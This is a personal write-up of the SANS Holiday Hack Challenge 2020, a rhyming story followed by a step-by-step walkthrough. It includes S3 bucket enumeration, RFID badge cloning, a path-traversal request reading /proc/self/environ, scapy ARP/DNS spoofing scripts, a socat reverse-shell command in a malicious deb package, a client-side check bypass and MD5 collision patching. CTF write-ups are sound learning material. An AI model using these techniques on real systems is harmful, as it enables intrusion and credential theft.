

I hopped off the turnpike at exit 7A

to see a ski lift and billboard, ready to start my day.  

The North Pole was close! Only at Exit 19!  

I just had to get in the ski lift for my objectives to be seen.  

I straightened my tie, ready for the test.  

"I have to do this for Santa, I have to be the best!"  

The first mystery to be solved was Santa's Gift List,  

to fix the image, I gave it a twist.  

The image was unruly and not very sharp,  

it took some finessing to find out Josh wanted a Proxmark.  

Before entering the castle, I met an elf, Shinny Upatree,  

he asked me if I could investigate Amazon's Buckets S3.  

A package was missing, it couldn't be found  

It was lost somewhere, up in the cloud.  

Buckets can be seen or hidden from sight  

If we have a wordlist, we can guess 'til we're right  

All we did was add two words to our list  

to find out a link to the package's bucket exists!  

After downloading the package, it was found endlessly wrapped

Stick with me now, as I show you the map.

First we decoded in base64

But that wasn't it, there was quite a bit more.

You'd think after unzipping and untarring, you'd leave it at that,

but it took reverse hex-dumping, unxzing, uncompressing, and finally cat.

All of this effort turned out to be worth,  

to see the message "North Pole: The Frostiest Place on Earth."  

I wiped the sweat off my purple balloon head,

I was nervous, but there was nowhere else I’d rather be instead.

The North Pole is riddled with terminals, elves, and clues to be found  

All I want for Christmas, is to leave here safe and sound  

So I went through the Great Room and into the Courtyard

Where Sugarplum Mary asked me to help fix her machine that swipes credit cards.  

She needed the password in order to get in  

One look at the point-of-sale terminal, and I knew our chances were slim

I got the source of the Electron app, to be extracted with asar

It took one grep to find that the password was not far

It was in "santapass," lying there in plaintext

I looked at the console, completely perplexed.  

Getting the password was easy, this much is true  

But as for what was next, I didn't know what to do.  

I walked through the castle, picking up what I thought was trash  

Little did I know it would help me find Santa's sleigh crash  

In the entry of the castle stood the Santavator  

It was out of order, shown by the red circle indicators.  

Turning the key, the access panel could be used  

"I wonder if this isn't just trash," I carefully mused  

Using the lights, nuts, and smaller trinkets  

I found they could take me where I needed to get    

From the bottom there was this stream of light  

Which the ornaments could change to a color more bright  

They had to be placed perfectly, you might ask "What for?"

Well I needed them there to access every single floor.

First I made my way to floor one and a half

Once there, I searched frantically for the elf staff.

I needed to get close to them and use Proxmark 3  

If done right, I could take their identity.  

Josh had the right idea asking Santa for this toy,

I stood next to every elf, opening the command line with joy.  

I got what I needed, I could access what was beyond a lock

So I headed to the workshop with a brisk walk

There was an elf standing cautiously by the door  

When he confessed "Santa seems to trust Shinny Upatree more."

Lucky for me I had their badge info loaded  

It was in my terminal, safely encoded.

Thanks to Proxmark, the door unlocked with a click

"Wow," I thought entering, "What a neat trick!"

The room I entered was dark and cold  

Not what I was expecting, truth be told.  

At the bottom of the room my eyes were drawn to two bright lights  

Once I got close, I found myself large, red, bearded, and my clothes too tight!

"I can't grow a beard!" I thought with a pause  

Then suddenly it hit me, I became Santa Claus  

The songs made sense, the ones I had heard

Telling me exactly what I had inferred.  

As Santa, I knew I could easily get around  

Every floor, every challenge, they could now be found.  

My first goal was to conquer the Splunk anew

But first I had to get used to walking in Santa's shoes.

Santa's head wasn't full of helium, or flight,

So getting around was truly a fight.

I stumbled and fumbled on which answers to choose

But with query hints and guesses, the Splunk challenge I made through.

I found I could fix a car's bus even if it was filled with CAN-D!

I made my way to the castle roof, without the chimney.   

There was too much on the screen, I had to narrow it down  

If I was to be Santa, I couldn't be a clown.  

Hands shaking, I filtered each ID one at a time  

I had to figure out which ID and action aligned.  

I started with on and off, just to give it a try  

It was a good guess though, I won't even lie.  

Assuming one-to-one mapping of IDs and actions

The unknown messages were found with continued interaction.

Once the unknown were excluded and identified to be causing corruption

The sleigh could be started without any disruption.

Just when I thought I was ready for my next objective,

I found my attempts to be ineffective.

Days turned to nights in the wrapping room, it only got later and later

All while I was there trying to fix the tag generator

I enumerated the endpoints, I even found save and share

Even with uploaded files of arbitrary data, I wasn’t quite there.

I felt stuck, was this as far as I could get?

Fingers shaking, I was starting to sweat.

I thought it was over, no more objectives to be explored

That’s when I decided to ask for help on discord.

The kind kringlecon community gave a hint for the solution

I learned that I had forgotten to try local file inclusion 

To find the value of GREETZ I would have to take a walk

To the environ file, in the pseudo-file system- proc.

Once that was done, I went straight to the roof

Where my next task required me to perform an ARP spoof.

Two sample scripts were dropped at my feet

They already had code filled with scapy.

There were blanks for me to fill here and there

Thanks to their docs, I was never even scared.

Once I appeared to be the server, I hijacked DNS

Then I found myself receiving an HTTP request.

The request seemed to be checking for the presence of a deb file

So I made one with a preinst bash script, and achieved code execution with style!

Despite having shell, I was not quite done with the quest

I had to grep through the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt

Once I was done I made my way back to the Santavator

But I had to access Santa’s workshop without being an impersonator!

When I was Santa, I won’t lie, I did some poking

That’s when I saw “besanta” to be the requested token

Thanks to the chrome dev debugging tools

I was able to do something that was pretty cool.

The token check code was commented out

I could use the fingerprint sensor myself, not go the impostor route.

Tinsel Upatree was shocked that I found a way to bypass their check

I was too, this was no easy trek. 

The next challenge in Santa’s office involved the naughty / nice list

Did a technique to predict the nonce of a future block exist?

Out of thousands of blocks, I was given a few 

To determine what the value would be if brand new.

The Mersenne twister was a new one, I looked for a sign

For any technique to be available online.

I searched far and wide for something to use 

When I found a library on github, I felt like a regular sleuth.

By taking in all the previously generated numbers, at least 624

The PRNG state could be recreated and future nonces in the blockchain were open to explore.

Upon further investigation, something seemed to be awry…

The naughty / nice list seemed to be telling a lie.

Jack was nicest of them all? This couldn’t be true…

To change the chain, what would one do?

If data was changed, the hashes should be wrong

Any corrupt data just couldn’t belong! 

But the elves urged me that something was amiss,

especially with Jack Frost at the top of the nice list!

Only four bytes had been modified, but which were flipped?

I got some tips after playing bootleg battleship.

I went through all the speaker deck slides and reviewed PDF specs with precision.

All so I could find the traits of a MD5 UniColl collision.

Elf University had some training that I watched closely

Then I found two suspicious bytes that were changed purposely.

The supporting PDF file contained two pages, only one was indexed

By switching pages I revealed the original text.

Jack Frost had been naughty, and I knew I was on the right track.

I changed the catalog index from 2 to 3, but there was still more to the attack.

The second suspicious byte was the block data’s sign

It was set to nice, when “naughty” should have been assigned.

Rumor around town said that UniColl was at play

From there, I pretty much knew the way.

For every increment, I knew what to do

To match with a decrement was nothing that new.

The sign had to be changed, I was ready to go

The byte was decreased, but something needed to grow.

64 bytes down I increased the value so my actions would match 

I did this once more until the file was patched. 

Once the bytes were fixed, I verified the md5 hash,

I found it was the same after running my script in bash.

I copied the sha256 hash of the new block and took a deep breath,

and submitted the objective, excited, yet nervous that this might be the end of the contest.

“Your answer was accepted!” the elf shouted with glee,

now I was to return to Santa’s workshop to obtain the reward as me.

Jack Frost was in orange, “Congrats!” they exclaimed.

I would like to say thanks to the developers for making such a great game.

It was the first time I completed the holiday hack challenge so I got a souvenir,

and I’m already looking forward to playing it again next year!

## Narrative

```
KringleCon back at the castle, set the stage...
But it's under construction like my GeoCities page.
Feel I need a passport exploring on this platform -
Got half floors with back doors provided that you hack more!
Heading toward the light, unexpected what you see next:
An alternate reality, the vision that it reflects.
Mental buffer's overflowing like a fast food drive-thru trash can.
Who and why did someone else impersonate the big man?
You're grepping through your brain for the portrait's "JFS"
"Jack Frost: Santa," he's the villain who had triggered all this mess!
Then it hits you like a chimney when you hear what he ain't saying:
Pushing hard through land disputes, tryin' to stop all Santa's sleighing.
All the rotting, plotting, low conniving streaming from that skull.
Holiday Hackers, they're no slackers, returned Jack a big, old null!
```

---

## Detailed Writeup

### Objectives

[Uncover Santa's Gift List](###Uncover-Santa's-Gift-List)

[Investigate S3 Bucket](###Investigate-S3-Bucket)

[Point of Sale Password Recovery](###Point-of-Sale-Password-Recovery)

[Operate the Santavator](###Operate-the-Santavator)

[Open HID Lock](###Open-HID-Lock)

[Splunk Challenge](###Splunk-Challenge)

[Solve the Sleigh's CAN-D-BUS Problem](###Solve-the-Sleigh's-CAN-D-BUS-Problem)

[Broken Tag Generator](###Broken-Tag-Generator)

[ARP Shenanigans](###ARP-Shenanigans)

[Defeat Fingerprint Sensor](###Defeat-Fingerprint-Sensor)

[Blockchain Investigation Part 1](###Blockchain-Investigation-Part-1)

[Blockchain Investigation Part 2](###Blockchain-Investigation-Part-2)

### Terminals

[Redis Bug Hunt](###Redis-Bug-Hunt)

[Unescape Terminal](###Unescape-Terminal)

[Linux Primer](###Linux-Primer)

[Speaker Prep](###Speaker Prep)

[Scapy Prepper](###Scappy-Prepper)

[Javascript](###Javascript)

[CAN-Bus Investigation](###CAN-Bus-Investigation)

[Snowball Fight](### Snowball Fight)

### [Misc](##Misc)

[Phone](###Phone)

[Sort-o-matic](###Sort-o-matic)

---

## Objectives

### Uncover Santa's Gift List

**Objective**

```
There is a photo of Santa's Desk on that billboard with his personal gift list. What gift is Santa planning on getting Josh Wright for the holidays?
```

**Solution**

At first, I wasn’t sure what the objective was talking about. I didn’t see any billboard! I went all around the castle trying to find it. It wasn’t until later, when I was zooming in to read something else, I noticed my entire browser was already zoomed in. The billboard was being cut off from my view. I set the zoom back to normal and resumed looking for it.

Once I found it and began examining the image, I recognized the swirl effect from photoshop which I learned about years ago. I downloaded and cropped the swirled image ready to get to work.


Instead of reaching for my wallet and using photoshop, I made do with [photo-kako.com](https://www.photo-kako.com/en/swirl.cgi). I tinkered with the settings until I was able to barely make out what the image was saying. With the angle of the swirl adjusted to 300%, I found out Josh wanted a Proxmark.


### Investigate S3 Bucket

**Objective**

```
When you unwrap the over-wrapped file, what text string is inside the package?
```

**Solution**

I knew Amazon S3 buckets could be used for data storage, but it wasn’t until I read a blog post on directory busting publicly accessible endpoints, that I knew what to do.

After talking to the elves and getting more context, I updated the wordlist with “package” and “wrapper3000.” Once those words were added, bucket_finder was able to access a public file!

I downloaded the file and ran the `file` command on it to find it was compressed. 

I fell down a rabbit hole unwrapping the package with various command line tools until I reached rock bottom… or plaintext.

```bash
$ echo "package" >> wordlist
$ echo "wrapper3000" >> wordlist
$ cat wordlist
kringlecastle
wrapper
santa
package
wrapper3000
$ cd bucket_finder ; ./bucket_finder.rb wordlist
http://s3.amazonaws.com/kringlecastle
Bucket found but access denied: kringlecastle
http://s3.amazonaws.com/wrapper
Bucket found but access denied: wrapper
http://s3.amazonaws.com/santa
Bucket santa redirects to: santa.s3.amazonaws.com
http://santa.s3.amazonaws.com/
        Bucket found but access denied: santa
http://s3.amazonaws.com/package
Bucket found but access denied: package
http://s3.amazonaws.com/wrapper3000
Bucket Found: wrapper3000 ( http://s3.amazonaws.com/wrapper3000 )
        <Public> http://s3.amazonaws.com/wrapper3000/package

$ wget http://s3.amazonaws.com/wrapper3000/package
$ cat package | base64 -d > package.dec
$ unzip package.dec
$ tar -xf package.txt.Z.xz.xxd.tar.bz2
$ xxd -r package.txt.Z.xz.xxd package.txt.Z.xz
$ unxz -dc package.txt.Z.xz > package.txt.Z
$ uncompress package.txt.Z
$ cat package.txt
North Pole: The Frostiest Place on Earth
```

### Point of Sale Password Recovery

**Objective**

```
Help Sugarplum Mary in the Courtyard find the supervisor password for the point-of-sale terminal. What's the password?
```

**Solution**

Not knowing much about Electron, I downloaded and installed the application onto my host computer- as if malware doesn’t exist.

The file was placed inside of  `C:\Users\username\AppData\Local\Programs\santa-shop\resources` 

Given a hint from a nearby elf, I used the `asar` command-line tool to extract source code from the app.asar file.

```
$ asar extract app.asar example-sourcecode 
$ grep PASS main.js
const SANTA_PASSWORD = 'santapass';
  return (password == SANTA_PASSWORD);
```

### Operate the Santavator

I remember struggling with Flash (R.I.P.) games that looked like the Santavator.

And struggle, I did. It felt like I was attempting to put cubes into triangle-shaped holes.

Eventually, it was found that each item had different properties that affected the stream of light. A somewhat working solution was found below.


### Open HID Lock

The Proxmark 3 was found in the Wrapping Room. With the Proxmark command line open, I would stand beside an elf and run the commands below to clone their ID.

I felt like a hacker on a quest doing this, and thought it was a really cool part of the game. It's not every day that you get to go on a virtual physical pen-test.

```
pm3 --> lf hid read
#db# TAG ID: 2006e22f08 (6020) - Format Len: 26 bit - FC: 113 - Card: 6020
pm3 --> lf hid sim -r 2006e22f08 --fc 113 --cn 6020
[=] Simulating HID tag using raw 2006e22f08
[=] Stopping simulation after 10 seconds.
[=] Done
```
* Sparkles Redberry:`#db# TAG ID: 2006e22f0d (6022) - Format Len: 26 bit - FC: 113 - Card: 6022`

* Ginger Breddie:`#db# TAG ID: 2006e22f0d (6022) - Format Len: 26 bit - FC: 113 - Card: 6022`

* Holly Evergreen: `#db# TAG ID: 2006e22f10 (6024) - Format Len: 26 bit - FC: 113 - Card: 6024`

* Angel Candysalt: `#db# TAG ID: 2006e22f31 (6040) - Format Len: 26 bit - FC: 113 - Card: 6040`

* Bow Ninecandle: `#db# TAG ID: 2006e22f0e (6023) - Format Len: 26 bit - FC: 113 - Card: 6023`
* Shinny Upatree: `#db# TAG ID: 2006e22f13 (6025) - Format Len: 26 bit - FC: 113 - Card: 6025`

One of the elves said, "Santa seems to trust Shinny Upatree a lot..."

So by using Shinny's RFID, we unlocked the HID doorway with the command:

```
lf hid sim -r 2006e22f13 --fc 113 -- 
```

### Splunk Challenge

**Objective**

```
Access the Splunk terminal in the Great Room. What is the name of the adversary group that Santa feared would attack KringleCon?
```

**Solution**

Thankfully, many hints for query formats were provided in the SOC chat logs. Queries could also be built in the web interface. Several questions needed to be answered before we could attempt to solve the main objective:

1. How many distinct MITRE ATT&CK techniques did Alice emulate?

```
 | tstats count where index=* by index
```

This query came up with 26 entries and by guessing each was a pair of sub-techniques, so 26 / 2 = 13

Answer: 13

2. What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)

```
| tstats count where index=* by index 
| search index=T*-win OR T*-main
| rex field=index "(?<technique>t\d+)[\.\-].0*" 
| stats dc(technique)
```

Searched on the ATT&CK framework website for the technique 1059.003

Answer: t1059.003-main t1059.003-win

3. One technique that Santa had us simulate deals with 'system information discovery'. What is the full name of the registry key that is queried to determine the MachineGuid?

* Searched for "System Information Discovery" @ https://attack.mitre.org/techniques/T1082/ to get T1082
* Then looked in the github repo sub-directory atomics for the matching T1082 in https://github.com/redcanaryco/atomic-red-team
* Searched for MachineGUID and found the command in the markdown for Atomic Test #8 @ https://github.com/redcanaryco/atomic-red-team/blob/7ebf7536b886637d85388c93f34401d493cf4087/atomics/T1082/T1082.md

Answer: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography

4. According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)

Used the query `index=attack "Test Name"="OSTAP*"`, then looked for the earliest timestamp at the bottom of the web interface.

Answer: 2020-11-30T17:44:15Z

5. One Atomic Red Team test executed by the Attack Range makes use of an open source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?

* First, looked up the tool author and found the tool @ https://github.com/frgnca/AudioDeviceCmdlets
* Then, searched for the tool's usage in Atomic Red Team @ https://github.com/redcanaryco/atomic-red-team/search?q=AudioDeviceCmdlets and found atomics/T1123 and the related powershell command.
* Using a pivot, eventually landed on the following query:

```
(index=* OR index=_*) (EventCode=1 process_exec="powershell.exe" CommandLine="*WindowsAudioDevice-Powershell-Cmdlet*" process_exec="powershell.exe" index="t1123-win" EventID=1)  | rename CommandLine AS RootObject.CommandLine EventCode AS RootObject.EventCode EventData_Xml AS RootObject.EventData_Xml index AS RootObject.index process_exec AS RootObject.process_exec | fields "_time" "host" "source" "sourcetype" "RootObject.CommandLine" "RootObject.EventCode" "RootObject.EventData_Xml" "RootObject.index" "RootObject.process_exec" 
```

Answer: 3648

6. Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?

* Looked up the Registry Run Key MITRE Attack number @ https://attack.mitre.org/techniques/T1547/001/
* Looked at atomic red team github for the technique https://github.com/redcanaryco/atomic-red-team/blob/910a2a764a66b0905065d8bdedb04b37049a85db/atomics/T1547.001/T1547.001.md
* Searched in splunk with `index=t1547.001* linecount>1 EventData_Xml="*"`
* Saw `https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`
* Copied the last line of the source code

Answer: quser

7. According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?

* Used the query `index=* sourcetype=bro* sourcetype="bro:x509:json"` and recognized `certificate.subject: CN=win-dc-748.attackrange.local`

Answer:  55FCEEBB21270D9249E86F4B9DC7AA60 

8. What is the name of the adversary group that Santa feared would attack KringleCon?

* Used cyberchef and scrolled through the [video](https://www.youtube.com/watch?v=RxVgEFt08kU) to get the key 
* base64 decode => RFC 7465 = RC4 with a key "Stay Frosty"

Answer: The Lollipop Guild

### Solve the Sleigh's CAN-D-BUS Problem

**Objective**

```
Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D bus. We need you to exclude the malicious messages and no others to fix the sleigh.
```

**Solution**

By excluding IDs one-by-one and interacting with the graphical interface, the following relationships were found:

```
244 (speed), 19B (locks), 019 ( steering), 080 (brakes), 188 (unknown)
```

There were several extra messages for 19B, lock, and unlock. For start and stop, some messages didn’t fit the values expected. The only things not broken were steering and braking as they matched the graphical indicators.

After adding the filter below, the sleigh problem was solved.

```
19B | Equals | 0000000F2057
080 | Contains | FFFF
```

###  Broken Tag Generator

**Objective**

```
Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ?
```

**Solution**

I was stuck on this for a while. I looked into the save and share endpoints, attempting to upload files with arbitrary data. I accomplished this, but it ultimately got me nowhere. I found through the kind kinglecon community, that local file inclusion was possible via directory traversal in the image endpoint.

By sending a GET request to read `/proc/self/environ`, the requested file's value could be leaked.

```
GET https://tag-generator.kringlecastle.com/image?id=../../../proc/self/environ
```

Answer: GREETZ=JackFrostWasHere

### Arp Shenanigans

**Objective**

```
Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?
```

**Solution**

I modified the sample traffic script in `/home/guest/scripts` so I could respond to the ARP requests. Once the ARP spoof was successful, I got a DNS query.

```python
#!/usr/bin/python3                                                                                   
# arp_response.py
from scapy.all import *                                                                               
import netifaces as ni         
import uuid                                                                                                      
# Our eth0 ip                        
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address    
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src="02:42:0a:06:00:03")
        arp_response = ARP(pdst="10.6.6.35")
        arp_response.op = 0x02
        arp_response.plen = 0x04
        arp_response.hwlen = 0x06
        arp_response.ptype = 0x0800
        arp_response.hwtype = 0x01
        arp_response.hwsrc = macaddr # "02:42:0a:06:00:03"
        arp_response.psrc = "10.6.6.53"
        arp_response.hwdst = "4c:24:57:ab:ed:84"
        arp_response.pdst = "10.6.6.35"
        response = ether_resp/arp_response

        sendp(response, iface="eth0")

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)

if __name__ == "__main__":
    main()
```

```python
#!/usr/bin/python3
# dns_response.py
from scapy.all import *
import netifaces as ni                                                                               
import uuid                                                                                                                                 
# Our eth0 IP             
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr                
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53" # "10.6.1.10" 
def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src=macaddr, dst="4c:24:57:ab:ed:84")   # need to replace mac addresses
    ip  = IP(dst="10.6.6.35", src="10.6.6.53")          # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=53)        # need to replace ports
    dns = DNS(
        qr = 1,
        ra = 1,
        id = 0x01,
        ancount = 1,
        qd = packet[DNSQR],
        an = DNSRR(rrname=packet[DNSQR].qname, rdata=ipaddr)
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")
def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )

    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)

if __name__ == "__main__":
    main()
```

Then, following the instructions on [Wannes Colman’s Blog](http://www.wannescolman.be/?p=98), I created a deb file with a preinst script that contained 

```
socat tcp-connect:10.6.0.3:6969 exec:/bin/sh,pty,stderr,setsid,sigint,sane.
```

That file was hosted with Python 3 HTTP server (`python3 http.server 80`) to match the request path:  `GET /pub/jfrost/backdoor/suriv_amd64.deb`. This gave me a reverse shell.

Reading through the `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` file, the answer `Tanta Kringle` was found.

### Defeat Fingerprint Sensor

To bypass the fingerprint sensor, I used Chrome’s dev debugging tools. Inside the console, I commented out the token check. This let me execute and create the appropriate request to get to the target floor.

The code for the token check was inside of  `Sources > elevator.kringlecastle.com/app.js`.

```
if (btn4.classList.contains('powered')) { 
      /* we comment out the token check && hasToken('besanta')) { */
      $.ajax({
        type: 'POST',
        url: POST_URL,
        dataType: 'json',
        contentType: 'application/json',
        data: JSON.stringify({ 
          targetFloor: '3',
          id: getParams.id,
        }),
```

With the `hasToken` commented out, I was able to click on the fingerprint sensor as myself. This is what the request looked like: 

```
POST / HTTP/1.1
Host: elevator.kringlecastle.com
Connection: keep-alive
Content-Length: 63
sec-ch-ua: "Google Chrome";v="87", " Not;A Brand";v="99", "Chromium";v="87"
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json
Origin: https://elevator.kringlecastle.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://elevator.kringlecastle.com/?challenge=elevator4&id=00d289e8-5b5f-4088-9d49-a67dec773e8f&username=em&area=santavator4&location=1,2&tokens=candycane,ball,yellowlight,elevator-key,greenlight,redlight,workshop-button,marble,nut2
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

{"targetFloor":"3","id":"00d289e8-5b5f-4088-9d49-a67dec773e8f"}
```

And boom! I was able to get into Santa’s office as myself.

### Bockchain Investigation Part 1

**Objective**

```
Even though the chunk of the blockchain that you have ends with block 129996, can you predict the nonce for block 130000?
```

**Solution**

We were given a `blockchain.dat` file and a naughty / nice [education pack](https://download.holidayhackchallenge.com/2020/OfficialNaughtyNiceBlockchainEducationPack.zip). We had to predict the values for a pseudo-random number generator; specifically the `mt19937 PRNG` system.

Since there are over 624 available blocks in the sequence of the chain, I was able to use the Mersenne Twister Predictor [library](https://github.com/kmyk/mersenne-twister-predictor). With that too, I was able to obtain the PRNG state so I could continue computing values.

The `naughty_nice.py` file was modified as such:

```python
from mt19937predictor import MT19937Predictor
## there is additional code above, we append to main 
with open('official_public.pem', 'rb') as fh:
    official_public_key = RSA.importKey(fh.read())
c2 = Chain(load=True, filename='blockchain.dat')

predictor = MT19937Predictor()
for block in c2.blocks:
    x = block.nonce
    predictor.setrandbits(x, 64)
chain_end = len(c2.blocks) - 1
assert c2.blocks[chain_end].nonce == predictor.getrandbits(64)
print("assertion passed, predicting next few nonces")
num_predictions = 130000 - 129996
for _ in range(num_predictions):
    print(hex(predictor.getrandbits(64)))
```

Answer: 57066318f32f729d

### Blockchain Investigation Part 2

**Objective**

```
The SHA256 of Jack's altered block is: 58a3b9335a6ceb0234c12d35a0564c4e f0e90152d0eb2ce2082383b38028a90f. If you're clever, you can recreate the original version of that block by changing the values of only 4 bytes. Once you've recreated the original block, what is the SHA256 of that block?
```

**Solution**

First I identified the altered block using SHA256. This block was at index 129459. I dumped this block by modifying the `naughty_nice` script as follows:

```python
import hashlib
## there is additional code above, we append to main 
with open('official_public.pem', 'rb') as fh:
    official_public_key = RSA.importKey(fh.read())
c2 = Chain(load=True, filename='blockchain.dat')

def dump_block_data(data):
    with open("block.dat", "wb") as fd:
        fd.write(data)
        
for block in c2.blocks:
    read_hash = hashlib.sha256(block.block_data_signed()).hexdigest()
    if read_hash == "58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f":
        print(block.index)
        dump_block_data(block.block_data_signed())
        break
```

At this point I needed more hints. I rolled up my sleeves and prepared myself for the (snowball fight)[### Snowball-Fight] challenge. Once completed, I got the necessary hints and resources to continue. Obtaining this information enabled me to learn what md5 collision techniques were being used. They hinted at UniColl.

By reading up on the PDF [specification](https://www.oreilly.com/library/view/pdf-explained/9781449321581/ch04.html) and reading up on md5 collisions, I found out there were two contents in the PDF file, but only was actually being pointed to by the Catalog object. By modifying `Catalog/Pages# 2` to instead read `Catalog/Pages# 3`, I was able to read the other page of content. This told me that Jack Frost was indeed supposed to be on the naughty list. It read:

```
“Earlier today, I saw this bloke Jack Frost climb into one of our cages and repeatedly kick a wombat. I
don’t know what’s with him… it’s like he’s a few stubbies short of a six-pack or somethin’. I don’t think
the wombat was actually hurt… but I tell ya, it was more ‘n a bit shook up. Then the bloke climbs outta
the cage all laughin’ and cacklin’ like it was some kind of bonza joke. Never in my life have I seen
someone who was that bloody evil...”
```

I reviewed the source code on the blockchain's data contents and for which parts of the block were being hashed with md5.

The `block_data['sign']` byte stood out to me, as decrementing it would change the value from nice to naughty. At this point, two bytes have now been identified, so what are the remaining two bytes?

For a UniColl collision, any increment has to be matched by a decrement that is a specific number of positions away from the changed byte in order for the md5 hash to remain the same. So it took a bit of guess-work, by looking at other examples of UniColl, to figure out the direction in which to modify the other two corresponding bytes.

```
- offset - | 0 1  2 3  4 5  6 7  8 9  A B  C D  E F| 0123456789ABCDEF  comment
0x00000000 |3030 3030 3030 3030 3030 3031 6639 6233| 000000000001f9b3
0x00000010 |6139 3434 3765 3537 3731 6337 3034 6634| a9447e5771c704f4
0x00000020 |3030 3030 3030 3030 3030 3031 3266 6431| 0000000000012fd1
0x00000030 |3030 3030 3030 3030 3030 3030 3032 3066| 000000000000020f
0x00000040 |3266 6666 6666 6666 66[30] 6666 3030 3030| 2ffffffff0ff0000 ; col 9 val 0x31 - 1 = 0x30
0x00000050 |3030 3663 ea46 5340 303a 6079 d3df 2762| 006c.FS@0:`y..'b
0x00000060 |be68 467c 27f0 46d3 a7ff 4e92 dfe1 def7| .hF|'.F...N.....
0x00000070 |407f 2a7b 73e1 b759 b8b9 1945 1e37 518d| @.*{s..Y...E.7Q.
0x00000080 |22d9 8729 6fcb 0f18 8d[d7] 0388 bf20 350f| "..)o........ 5. ; col 9 val 0xd6 + 1 = 0xd7
0x00000090 |2a91 c29d 0348 614d c0bc eef2 bcad d4cc| *....HaM........
0x000000a0 |3f25 1ba8 f9fb af17 1a06 df1e 1fd8 6493| ?%............d.
0x000000b0 |96ab 86f9 d511 8cc8 d820 4b4f fe8d 8f09| ......... KO....
0x000000c0 |3035 3030 3030 3966 3537 2550 4446 2d31| 0500009f57%PDF-1
0x000000d0 |2e33 0a25 25c1 cec7 c521 0a0a 3120 3020| .3.%%....!..1 0
0x000000e0 |6f62 6a0a 3c3c 2f54 7970 652f 4361 7461| obj.<</Type/Cata
0x000000f0 |6c6f 672f 5f47 6f5f 4177 6179 2f53 616e| log/_Go_Away/San
0x00000100 |7461 2f50 6167 6573 20[33] 2030 2052 2020| ta/Pages 3 0 R   ; col 9 val 0x32 + 1 = 0x33
0x00000110 |2020 2020 30f9 d9bf 578e 3caa e50d 788f|     0...W.<...x.
